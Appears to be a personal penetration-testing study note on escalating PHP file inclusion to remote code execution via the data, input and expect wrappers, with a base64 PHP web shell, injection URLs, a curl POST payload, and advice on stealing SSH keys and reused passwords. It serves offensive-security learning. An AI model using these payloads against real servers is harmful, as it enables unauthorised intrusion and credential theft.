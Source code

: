 Aside from [using PHP wrappers for file disclosures](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) through the file inclusion vulnerability. The same technique can also be used to perform code executions.

While we can use many different methods to execute remote commands depending on the backend language/framework and the vulnerable function's capabilities. The most command method for gaining control over the backend server is by enumerating for user credentials and SSH keys, and then use those to login to the backend server through SSH or any remote session.

For example, we may find the database password in `config.php`, which may match a user's password in case they re-use the same password. Or we can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (`id_rsa`) and use it to SSH into the system.
## Data Wrapper
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. We can access the data wrapper using `data://`.

However, the data wrapper is only available to use if the `allow_url_include` setting is enabled in the PHP configurations. To confirm this, we can use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files.

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On 
```
### Remote Code Execution
With `allow_url_include` enabled, we can proceed with our attack using the `data` wrapper. Aside from passing plain PHP code, we can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

First we encode our payload in Base64 as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg== 
```

Then we pass the encoded payload into the data wrapper as follows:
```txt
http://target-website.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```
## Input Wrapper
Similar to the data wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. We can access the data wrapper using `php://input`.

The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting.

To execute a command using the `input` wrapper, we need to send a POST request to the vulnerable URL as follows:
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]) ?>' http://target-website.com/index.php?language=php://input&cmd=id
```
> Note: To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
## Expect Wrapper
Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells used in previous examples, but don't need to provide a web shell, as it is designed to execute commands. We can access the data wrapper using `expect://`.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the backend server, although some web applications rely on it for their core functionality, so there will be use cases for it in the wild. To determine if `expect` wrapper is installed, we can use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files.

To use the expect module, we can use the `expect://` wrapper and then pass the command we want to execute, as follows:
```txt
http://target-website.com/index.php?language=expect://id
```